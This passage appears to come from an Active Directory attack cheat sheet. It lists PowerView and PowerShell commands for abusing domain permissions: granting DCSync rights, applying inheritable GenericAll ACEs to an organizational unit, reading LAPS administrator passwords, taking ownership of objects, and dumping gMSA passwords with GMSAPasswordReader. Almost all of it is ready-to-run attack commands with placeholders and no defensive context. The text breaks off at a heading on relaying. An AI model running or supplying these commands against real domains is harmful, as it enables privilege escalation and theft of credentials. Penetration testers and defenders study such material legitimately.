 ````
Add-ObjectAcl -PrincipalIdentity exch_adm -Rights DCSync
```

#### GenericAll - Dcsync
- Execute DC Sync

### Permissions on OU
#### Generic all - Inherit down
- The simplest and most straight forward way to abuse control of the OU is to apply a GenericAll ACE on the OU that will inherit down to all object types. 

#### Fetch guids for all objects
```
$Guids = Get-DomainGUIDMap
$AllObjectsPropertyGuid = $Guids.GetEnumerator() | ?{$_.value -eq 'All'} | select -ExpandProperty name
```

#### Grant user full control of all descendant objects:
```
$ACE = New-ADObjectAccessControlEntry -Verbose -PrincipalIdentity '<USER>' -Right GenericAll -AccessControlType Allow -InheritanceType All -InheritedObjectType $AllObjectsPropertyGuid
```

#### Apply this ACE to our target OU:
```
$OU = Get-DomainOU -Raw <GUID>
$DsEntry = $OU.GetDirectoryEntry()
$dsEntry.PsBase.Options.SecurityMasks = 'Dacl'
$dsEntry.PsBase.ObjectSecurity.AddAccessRule($ACE)
$dsEntry.PsBase.CommitChanges()
```

#### If laps is enabled, read password
```
Get-DomainComputer | Where-Object -Property ms-mcs-admpwd | Select-Object samaccountname, ms-mcs-admpwd
```

### Writeowner of an object - Change the owner
- When writeowner
```
Set-DomainObjectOwner -Credential $creds -Identity <OBJECT FQDN OR SID> -OwnerIdentity <NEW OWNER>

Get-DomainObjectAcl -Identity <IDENTITY> -ResolveGUIDs | Where-Object -Property SecurityIdentifier -Match <SID NEW OWNER>
```

### Owner of an object - Add GenericAll
```
Add-DomainObjectAcl -Credential $creds -TargetIdentity "<OBJECT FQDN OR SID>" -Rights all -PrincipalIdentity <USER WHO GETS GENERIC ALL> -Verbose

Get-DomainObjectAcl -Identity "<OBJECT FQDN OR SID>" -ResolveGUIDs | Where-Object -Property SecurityIdentifier -Match <SID OF USER WHO GETS GENERIC ALL>
```

### ReadGMSAPassword
- https://github.com/rvazarkar/GMSAPasswordReader

#### Read GMSA password
```
.\gmsapasswordreader.exe --accountname <ACCOUNT>
```

### Relaying ReadGMSAPassword
````